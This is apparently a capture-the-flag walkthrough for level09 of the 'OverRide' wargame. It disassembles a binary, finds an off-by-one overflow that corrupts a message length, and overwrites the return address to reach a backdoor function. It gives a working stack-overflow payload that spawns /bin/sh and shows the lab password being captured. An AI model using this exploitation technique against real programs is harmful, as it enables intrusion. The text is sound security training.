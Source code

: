 # Level09 Walkthrough

## Analyzing the Program with GDB and ghidra
NEED TO GHIDRA 

1. **Whats happening**: 

- Here is the functions it uses : 
    - 0x000000000000088c  `secret_backdoor` : take the input from stdin and use the `system` function. 
    - 0x00000000000008c0  `handle_msg` : call 2 functions, set_username and set_msg with different size. 
    - 0x00000000000009cd  `set_username` : copy the username with the user input from the beginning
    - 0x0000000000000932  `set_msg` : will copy the message of the stdin and the user input + the size. 

- Its a 64bits arch, we can see `x64` registers.

- We can see different size for the variables :
    - `user_data` : buffer[140] on handle_msg
    ```bash
    (gdb) b handle_msg 
    Breakpoint 1 at 0x8c4
    (gdb) r
    (gdb) info registers rbp
    rbp            0x7fffffffe5c0   0x7fffffffe5c0
    (gdb) print 0x8c
    $4 = 140
    ```
    - `username` : buffer 
    ```bash
    0x0000555555554a29 <+92>:    lea    -0x90(%rbp),%rax <----> utilise an local array[144] for user input
    0x0000555555554a30 <+99>:    mov    $0x80,%esi
    0x0000555555554a35 <+104>:   mov    %rax,%rdi
    0x0000555555554a38 <+107>:   callq  0x555555554770 <fgets@plt> <----> taille maximale de lentree lue par `fgets` est defini par 0x80 [128] so it can SEGFAULT
    [...]
    0x0000555555554a46 <+121>:   mov    -0x4(%rbp),%eax <---> index courant 
    0x0000555555554a49 <+124>:   cltq   
    0x0000555555554a4b <+126>:   movzbl -0x90(%rbp,%rax,1),%ecx
    0x0000555555554a53 <+134>:   mov    -0x98(%rbp),%rdx
    0x0000555555554a5a <+141>:   mov    -0x4(%rbp),%eax
    0x0000555555554a5d <+144>:   cltq   
    0x0000555555554a5f <+146>:   mov    %cl,0x8c(%rdx,%rax,1)

    0x0000555555554a66 <+153>:   addl   $0x1,-0x4(%rbp)
    0x0000555555554a6a <+157>:   cmpl   $0x28,-0x4(%rbp) <----> l'index doit atteindre 40bytes (0x28) ou un caractere '\0'
    ```

- Donc si l'entree contient plus de 40 caractere (jusqu'a la limite de 128 octets), la fonction ecrira en dehors de 40bytes allouees = BUFFER OVERFLOW

- Il y a une taille partage entre les fonctions, l'overflow va s'effectuer dans set_msg

- Buffer overflow test : 
```bash
python -c 'print "A" * 40 + "\xff" + "B" * 255' | ./level09 
and 
gdb ./level09
r <<<$(python -c 'print "A" * 40 + "\xff" + "\n" + "B" * 255')

>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

- it overflow here because it erase the 180bytes pointed by `%rax`, its the maximum size of the msg.
```bash
disas set_msg
0x00005555555549a9 <+119>:   mov    0xb4(%rax),%eax
0x00005555555549af <+125>:   movslq %eax,%rdx
```

+ some informations, on va pouvoir override le registre `rip` with the address of the `secret_backdoor`.

2. **Final walktrough**

- `40` for the index strncpy limit copy
- `\xff` for 255 on hexa 
- `\n` for the user input
- `200` offset find, see above
- `secret_backdoor` address
- `/bin/sh` the command in the stdin

```bash
chmod 777 .
python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > exploit_me
level09@OverRide:~$ cat exploit_me - | ./level09 
[...]
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
^C
Segmentation fault (core dumped)
level09@OverRide:~$ su end 
Password: 
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
end@OverRide:~$ 
```

---

## Moving to end

1. **Swith User to end**:
    Run ```su end```

```
2. **Authenticate with the Password**:
    
   
 